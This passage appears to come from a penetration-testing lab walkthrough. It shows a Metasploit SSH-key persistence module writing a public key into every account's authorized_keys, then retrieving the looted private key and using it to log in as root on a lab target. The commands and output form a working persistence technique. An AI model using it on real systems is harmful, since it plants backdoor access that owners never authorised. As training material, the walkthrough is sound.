 ```
show options
exploit
```

Because we specified the module to create the SSH directory or folder for all users as well as add the public key to all the user account's home directory. It'll add the public key to the authorized keys file under the home directory under SSH and authorized keys. And it does for all user accounts as well as, in this case, the FTP user.

So we can identify. The private key here will be saved within the following directory.

```
[+] Storing new private key as /root/.msf4/loot/20211127225655_Linux_persistenc_192.182.80.3_id_rsa_891312.txt
```

Access the private key. This is a OpenSSH Private Key.

```
loot
cat /root/.msf4/loot/20211127225655_Linux_persistenc_192.182.80.3_id_rsa_891312.txt
```

And there's the private key here.

How can we utilize this to gain access to the target system? Well, we just need to copy it. And I'm going to terminate all my meterpreter sessions or all the sessions that I have active on the target.

```
exit -y
```

That will terminate everything. And we're back within the actual terminal. We're not working within MSF console.

```
vim ssh_key
```

And I will paste in the private key here.

And I'll then provide it with tha appropriate permissions for an SSH private key.

```
chmod 0400 ssh_key
```

And then we can authenticate to the target system via any user we want via SSH.

`-i`: Specify the key, the private key.

```
ssh -i ssh_key root@192.182.80.3
root@victim-1:~# ls
root@victim-1:~# exit
```

We are logged in as root. And we didn't have to provide the root password. So we're not changing the root password. We're just gaining access via SSH key authentication.
